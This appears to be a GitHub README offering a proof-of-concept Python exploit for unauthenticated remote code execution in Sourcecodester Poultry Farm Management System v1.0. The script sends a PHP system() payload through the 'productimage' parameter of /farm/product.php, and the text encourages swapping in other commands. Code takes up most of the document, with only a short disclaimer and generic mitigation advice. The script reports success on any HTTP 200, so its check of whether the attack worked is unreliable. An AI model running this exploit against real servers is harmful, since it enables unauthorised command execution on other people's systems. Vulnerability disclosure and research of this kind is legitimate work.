 # Proof of Concept (PoC) for Unauthenticated Remote Code Execution in Sourcecodester Poultry Farm Management System v1.0

This repository contains a Proof of Concept (PoC) script demonstrating an unauthenticated remote code execution (RCE) vulnerability in Sourcecodester Poultry Farm Management System v1.0. The vulnerability exists in the `productimage` parameter at `/farm/product.php`, allowing an attacker to execute arbitrary code on the server.

## Table of Contents

- [Vulnerability Description](#vulnerability-description)
- [Setup and Usage](#setup-and-usage)
  - [PoC Script](#poc-script)
- [Important Considerations](#important-considerations)
- [Mitigation](#mitigation)

## Vulnerability Description

**CVE-ID**: (Pending)

**Overview**: 
Sourcecodester Poultry Farm Management System v1.0 contains an unauthenticated remote code execution (RCE) vulnerability via the `productimage` parameter at `/farm/product.php`. This vulnerability allows an attacker to execute arbitrary code on the server without authentication.

**Affected Version**: 
- Sourcecodester Poultry Farm Management System v1.0

## Setup and Usage

### Prerequisites

- Python 3.x
- `requests` library (`pip install requests`)

### PoC Script

This script demonstrates how an attacker can exploit the RCE vulnerability by sending a malicious request to the vulnerable parameter.

Save the following script as `rce_poc.py` and run it.

```python
import requests

# Configuration
target_url = "http://target-url/farm/product.php"  # Change this to the target URL

# Malicious payload
# The payload should be a command that the server can execute, e.g., 'ls' to list directory contents
# Here, we are using a simple PHP payload to demonstrate the RCE
payload = "<?php system('ls'); ?>"

# Construct the malicious request
data = {
    'productimage': payload  # The vulnerable parameter
}

def exploit_rce(url, data):
    """
    Exploit the RCE vulnerability by sending a malicious request to the target URL.

    Args:
        url (str): The target URL.
        data (dict): The data to be sent in the POST request.
    """
    try:
        response = requests.post(url, data=data)
        
        # Print the response details
        print("Status Code:", response.status_code)
        print("Response Body:", response.text)
        
        if response.status_code == 200:
            print("[+] Successfully executed the payload.")
        else:
            print("[-] Failed to execute the payload.")
    except requests.RequestException as e:
        print(f"[-] An error occurred: {e}")

if __name__ == "__main__":
    print(f"Sending malicious request to: {target_url}")
    exploit_rce(target_url, data)
```

### Explanation

1. **Configuration**: Set the `target_url` to the URL of the vulnerable server's `/farm/product.php` endpoint.
2. **Payload**: The payload is a simple PHP command execution payload. You can modify the payload to execute different commands as needed.
3. **Construct the Request**: The script constructs a POST request with the malicious payload in the `productimage` parameter.
4. **Exploit Function**: The `exploit_rce()` function sends the malicious request to the target URL and prints the response details.
5. **Run the Script**: When executed, the script will attempt to exploit the RCE vulnerability and print the results.

## Important Considerations

- **Permissions**: Ensure you have explicit permission to test this vulnerability on the target system. Unauthorized testing is illegal and unethical.
- **Testing Environment**: Perform this test in a controlled environment to avoid impacting production systems.
- **Payload Customization**: Customize the payload as needed to achieve the desired command execution.

## Mitigation

To mitigate this vulnerability, apply the following steps:

- **Input Validation**: Implement proper input validation to sanitize user inputs.
- **File Upload Restrictions**: Restrict file uploads to only allow specific file types and enforce size limits.
- **Update Software**: Regularly update your software to the latest version to apply security patches and fixes.

By following these mitigation steps and security best practices, you can prevent vulnerabilities such as this RCE issue in Sourcecodester Poultry Farm Management System v1.0.
